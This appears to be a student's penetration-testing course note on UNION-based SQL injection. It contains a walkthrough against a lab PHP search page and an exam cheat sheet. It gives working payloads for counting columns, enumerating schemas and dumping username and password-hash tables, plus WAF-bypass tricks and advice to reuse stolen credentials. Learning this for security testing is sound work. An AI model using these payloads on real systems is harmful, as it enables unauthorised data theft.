

---
tags:
  - phase/exploitation
  - sqli
  - union
  - web
---

# UNION-based payloads

> [!tip] Quick Reference — SQLi
> | Step | MySQL | MSSQL |
> |------|-------|-------|
> | Detect | `'` `"` `' OR 1=1--` | same |
> | Comment | `-- -` `#` | `--` |
> | Version | `@@version` | `@@version` |
> | Current DB | `database()` | `db_name()` |
> | List DBs | `UNION SELECT schema_name FROM information_schema.schemata` | `SELECT name FROM sys.databases` |
> | List tables | `UNION SELECT table_name FROM information_schema.tables WHERE table_schema=database()` | `SELECT table_name FROM information_schema.tables` |
> | List columns | `UNION SELECT column_name FROM information_schema.columns WHERE table_name='users'` | same |

## Decision Tree

```
Possible SQLi parameter?
├── [1] Test for error
│   └── Add ' to input → SQL error visible?
│       ├── YES → error-based SQLi
│       └── NO  → try boolean blind: ' OR 1=1-- vs ' OR 1=2--
│
├── [2] Find column count
│   └── ' ORDER BY 1-- , ORDER BY 2-- ... until error
│       └── Error on N → column count is N-1
│
├── [3] UNION attack
│   ├── ' UNION SELECT NULL,NULL,...--  (match column count)
│   ├── Find which column reflects output
│   │   └── ' UNION SELECT 1,2,3,4--  (look for numbers in page)
│   └── Extract data
│       └── ' UNION SELECT username,password,3,4 FROM users--
│
├── Blind SQLi (no visible output)?
│   ├── Boolean: ' AND 1=1-- (true) vs ' AND 1=2-- (false)
│   └── Time-based: ' AND SLEEP(5)--  (MySQL) / WAITFOR DELAY '0:0:5'-- (MSSQL)
│
└── Got credentials?
    └── Try them: SSH, SMB, WinRM, web login
```

## Visual Flow



> [!success] What success looks like
> `' ORDER BY 5-- //` works but `' ORDER BY 6-- //` errors with "Unknown column '6' in 'order clause'" → 5 columns. Then `%' UNION SELECT 'a1','a2','a3','a4','a5' -- //` prints your test markers, showing which columns reflect on the page. Finally your UNION echoes real `username` and `password` values from the users table.

> [!danger] Common errors
> - "The used SELECT statements have a different number of columns" → your UNION column count does not match; recount with `ORDER BY`.
> - A value does not appear (e.g. `database()` in column 1) → that column is an integer ID and rejects strings; shift string functions to columns that accept text (use `null` for the rest).
> - Nothing happens / query not closed → comment out the rest with `-- ` (trailing space; this note uses `-- //`), and close the string with `'` (or `%'` for a `LIKE` query).
> - Quotes get mangled when submitted in a URL/form → see [[🔣 Encoding Reference]].
> Full list: [[⚠️ Common Errors & Troubleshooting]]

> [!tip] Beginner note
> **UNION** stacks your own `SELECT` onto the app's query and returns both result sets together. That only works if your `SELECT` has the **same number of columns** and **compatible data types** as the original — that is why you first count columns and use `NULL` (which fits any type) as filler.

## Resources
- [HackTricks — SQLi](https://book.hacktricks.xyz/pentesting-web/sql-injection)
- [PayloadsAllTheThings — SQLi](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
- [PortSwigger SQLi Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)


10.2.2. UNION-based payloads
Whenever we're dealing with in-band SQL injections and the result of the query is displayed along with the application-returned value, we should also test for UNION-based SQL injections.

The UNION keyword aids exploitation because it enables the execution of an extra SELECT statement and provides the results in the same query, thus concatenating two queries into one statement.

For UNION SQLi attacks to work, we first need to satisfy two conditions:

The injected UNION query has to include the same number of columns as the original query.
The data types need to be compatible between each column.

The target uses this vulnerable query, which searches `customers` for any name containing our input (the `%` operator matches zero or more trailing characters):

$query = "SELECT * from customers WHERE name LIKE '".$_POST["search_input"]."%'";

Browse to `http://192.168.50.16/search.php` and click SEARCH to dump all `customers` records. Before attacking, we need the exact column count of the target table. The page shows four columns, but never assume from the layout alone — there may be hidden columns.

To discover the correct number of columns, we can submit the following injected query into the search bar:

`ORDER BY` sorts by a column position and fails when that column does not exist. Increment the number until it errors — here `ORDER BY 6` errors, so the table has five columns.

' ORDER BY 1-- //

`ORDER BY 6` returns `Unknown column '6' in 'order clause'`, confirming five columns. Next, determine which columns are displayed on the page by placing a distinct marker in each:

%' UNION SELECT 'a1', 'a2', 'a3', 'a4', 'a5' -- //

Now enumerate the database name, user, and MySQL version. Close the search with `%'`, then `UNION SELECT` these functions into the first three columns and `null` the rest:


## %' UNION SELECT database(), user(), @@version, null, null -- //

The user and version appear, but the database name does not — column 1 is the integer ID field and cannot hold the string returned by `database()`.


> [!info] Why column 1 is blank
> The application omits the first column's output because IDs are not usually useful to end users.

Shift the enumeration functions to the right-most (string) columns to avoid the type mismatch:


## ' UNION SELECT null, null, database(), user(), @@version  -- //

All three values now return correctly, including `offsec` as the current database name.

Let's extend our tradecraft and verify whether other tables are present in the current database. We can start by enumerating the information schema of the current database from the information_schema.columns table.

We'll attempt to retrieve the columns table from the information_schema database belonging to the current database. We'll then store the output in the second, third, and fourth columns, leaving the first and fifth columns null.

## ' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //


The output lists each table name, column name, and the current database. Among the results is a new table named `users` with four columns — including one named `password`. Dump it, placing `username`, `password`, and `description` into the visible columns:

' UNION SELECT null, username, password, description, null FROM users -- //

Great! Our UNION-based payload was able to fetch the usernames and MD5 hashes of the entire users table, including an administrative account. These MD5 values are hashed versions of the plain-text passwords, which can be reversed using appropriate tools.

> [!tip] Dump every row in one shot with GROUP_CONCAT (MySQL)
> A single UNION column normally shows one row at a time. `GROUP_CONCAT()` flattens the whole result set into one string so it fits in one visible column:
> ```sql
> ' UNION SELECT null, GROUP_CONCAT(username,0x3a,password SEPARATOR 0x0a), null, null, null FROM users -- //
> ```
> `0x3a` is `:` and `0x0a` is a newline (hex avoids quoting issues) — the page prints every `username:password` pair separated by newlines instead of just the first row.

> [!warning] UNION/SELECT keyword gets stripped or the request is blocked (WAF/filter)
> If the response goes blank, 403s, or your keyword vanishes from the reflected input:
> - Vary case: `UnIoN SeLeCt` (SQL keywords are case-insensitive, naive filters aren't).
> - Break up the keyword with inline comments: `UNI/**/ON SEL/**/ECT`.
> - Swap the space after `UNION`/`SELECT` for `/**/`, a tab, or `%0a`/`%0d` (newline) — many filters only match on a literal space.
> - Double-encode special characters (`%2527` for `'`) if a proxy decodes once before the app sees it — see [[🔣 Encoding Reference]].
> - Let sqlmap try it for you with a tamper script, e.g. `--tamper=space2comment,between,charencode` (see [[Automating the attack]]).


Essentially:

Quick exam mental model
1. Is output displayed? → YES → try UNION
2. Find column count
3. Match data types
4. Inject SELECT
5. Extract data (users, passwords, flags)
   
UNION SQLi = add your own SELECT query

Rules:
- Same number of columns
- Matching data types

Steps:
1. Find column count (NULL or ORDER BY)
2. Inject UNION SELECT
3. Replace NULLs with data extraction

## === UNION-Based SQL Injection – Exam Cheat Sheet ===

Goal:
Use UNION to append your own query and extract data from the database.

--------------------------------------------------

[1] Confirm Injection Point
Try breaking the query:

' 
'--
' OR 1=1--

If errors or abnormal results appear → injectable

--------------------------------------------------

[2] Determine Number of Columns

Method 1 – ORDER BY:
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--

→ Increase until error occurs
→ Max valid number = column count

Method 2 – NULL (preferred):
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--

→ Keep adding NULLs until query works

--------------------------------------------------

[3] Identify Visible Columns

Replace NULLs with values:

' UNION SELECT 1,2,3--

→ See which numbers appear on page
→ Those positions are visible (usable)

--------------------------------------------------

[4] Extract Basic Info

Database name:
' UNION SELECT NULL, database()--

DB version:
' UNION SELECT NULL, @@version--

Current user:
' UNION SELECT NULL, user()--

--------------------------------------------------

[5] Enumerate Tables

MySQL:

' UNION SELECT NULL, table_name 
FROM information_schema.tables 
WHERE table_schema=database()--

--------------------------------------------------

[6] Enumerate Columns

' UNION SELECT NULL, column_name 
FROM information_schema.columns 
WHERE table_name='users'--

--------------------------------------------------

[7] Dump Data

' UNION SELECT username, password FROM users--

OR (adjust for column positions):

' UNION SELECT NULL, username, password FROM users--

--------------------------------------------------

[8] Extract Flag

Look for:
- flag
- password
- secret
- token

Example:
' UNION SELECT NULL, flag FROM users--

--------------------------------------------------

Rules (CRITICAL):

1. Column count MUST match
2. Data types must be compatible
3. Use NULL if unsure
4. Output must be visible (in-band SQLi)

--------------------------------------------------

Quick Attack Flow:

1. Test injection → '
2. Find column count → NULL,NULL,NULL
3. Find visible columns → 1,2,3
4. Extract DB info → database()
5. List tables → information_schema.tables
6. List columns → information_schema.columns
7. Dump data → SELECT username,password
8. Capture flag ✅

--------------------------------------------------

Example Final Payload:

' UNION SELECT NULL,username,password FROM users-- 

--------------------------------------------------

---
%% graph-links %%
## Related
- [[SQL theory and databases]]
- [[Identifying SQLi via error-based payloads]]
- [[Blind SQL injections]]
- [[Manual code execution]]

> [!info] Navigation
> Section: [[SQL Injection Attacks/Manual SQL exploitation/_index|Manual SQL exploitation]] · Home: [[🏠 Home]]

